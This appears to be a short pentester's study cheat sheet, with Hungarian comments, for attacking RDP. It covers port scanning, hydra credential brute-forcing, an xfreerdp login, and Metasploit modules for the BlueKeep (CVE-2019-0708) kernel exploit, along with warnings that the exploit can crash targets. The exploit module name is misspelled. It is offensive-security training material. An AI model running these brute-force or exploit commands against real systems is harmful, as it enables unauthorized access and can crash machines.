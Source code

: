 # rdp
can be use arbitrary port!!!!
## identify rdp service on a random port
### metasploit
use auxiliary/scanner/rdp/rdp_scanner
## bruteforcing credentials
hydra -L users.txt -P passwords.txt rdp://10.10.10.10 -s 1234
## rdp connect with random port
xfreerdp /u:administrator /p:pass123 /v:10.10.10.10:3333
## exploiting CVE-2019-0708 (Blue Keep)
### affected OSs
XP, Vista, Win7, Windows Server 2008, Windows Server 2008 R2
### check if system is vulnerable
msfconsole> use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
### exploitation
msfconsole> use exploit/windows/rdp/cve_2019_0708_blekeep_rce  
show targets  
* ki kell valasztani, a targetet!!!
### other info
nagyon sok poc van hozza  
elcrash-elhet a kernel, ha nem tetszik neki a kod  
csak x64-en mukodik, x86-on nem  
veszelyes exploit (kernel exploit), ne nagyon hasznaljuk, vizsgan, meg elesben se
a masik oldalrol viszont nagyon fasza es nagyon hasznos exploit!!!!
csak nagyon ovatosnak kell lenni vele
